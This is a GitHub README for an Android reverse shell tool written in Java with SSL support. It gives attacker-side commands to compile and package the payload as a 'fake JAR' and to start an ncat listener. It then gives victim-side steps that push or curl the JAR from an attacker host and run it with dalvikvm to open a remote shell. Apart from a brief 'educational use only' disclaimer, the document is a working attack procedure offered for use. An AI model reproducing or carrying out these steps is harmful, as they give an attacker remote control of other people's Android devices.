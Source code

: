 # Java Android Reverse Shell with SSL Support

Original Tutorial: https://malacupa.com/2018/10/25/android-command-line-reverse-shell.html

UPDATED WITH SSL SUPPORT https://github.com/CalfCrusher/JavaAndroidReverseShell/tree/main/SSL

## On Attacker machine - Linux -
### (you need android sdk installed and build-tools also) 

#### Compile Java source code to bytecode (if fails for "class error not supported", change the release!)
`javac --release 17 AndroidReverseShell.java`

#### Convert to DEX format 
`~/Library/Android/sdk/build-tools/33.0.0/d8 AndroidReverseShell.class`

#### Create fake JAR file
`zip reverse.jar classes.dex`

#### Set Listener (USE NCAT!)
`ncat -nlvp 1337`

## On Victim device - Android -
`adb push reverse.jar /sdcard` (if Android Debug Tools is enabled)

or you can just curl

`curl http://attackingmachine:9999/reverse.jar -o /sdcard/reverse.jar`<br/>

and then run the reverse shell using dalvikvm from Termux:

`cd /system/bin/ && ./dalvikvm -cp /sdcard/reverse.jar AndroidReverseShell`

## Todo

~~Support for SSL encryption~~<br/>
Bash Script to automatize everything

## Disclaimer:

For educational use only !

Java code was taken from https://gist.github.com/malacupa/3a98285ad67c98386f7e798b25ef808c#file-reverseshell-java. All credits goes to original developer

